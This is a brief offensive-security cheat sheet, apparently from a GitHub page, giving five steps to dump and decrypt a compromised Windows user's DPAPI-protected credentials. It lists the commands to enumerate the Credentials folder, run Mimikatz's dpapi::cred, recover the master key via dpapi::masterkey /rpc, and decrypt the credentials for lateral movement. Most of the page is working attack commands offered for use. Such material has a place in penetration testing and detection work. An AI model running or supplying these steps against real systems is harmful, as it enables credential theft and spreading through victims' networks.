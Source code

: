 # DPAPI Credentials Dumping and Decrypting

### Steps:

## 1) Enumerate the credentials folders of our compromised user:

    Get-ChildItem -Hidden C:\Users\USER\AppData\Roaming\Microsoft\Credentials\ (If true positive, you should see some numeric values like: 84F1CAEEBF466550F4967858F9353FB4 as an example)

## 2) Transfer and run Mimikatz to check more details of the credentials we found

    mimikatz# dpapi::cred /in:C:\Users\USER\AppData\Roaming\Microsoft\credentials\XXXXXXXXXXX (From all the data we dumped, we need THE GUID MASTERKEY for now)

## 3) Find the SID number of our compromised user

    C:\Users\USER\appdata\roaming\microsoft\protect

    dir

## 4) Change the SID and GUID MASTERKEY to your own

    mimikatz# dpapi::masterkey /in:C:\Users\USER\appdata\roaming\microsoft\protect\SID\GUID_MASTERKEY /rpc

## 5) Decrypt the credentials for lateral movement

    dpapi::cred /in:C:\Users\USER\AppData\Roaming\Microsoft\credentials\XXXXXXXXXXXXX /guidMasterkey::GUID_MASTERKEY
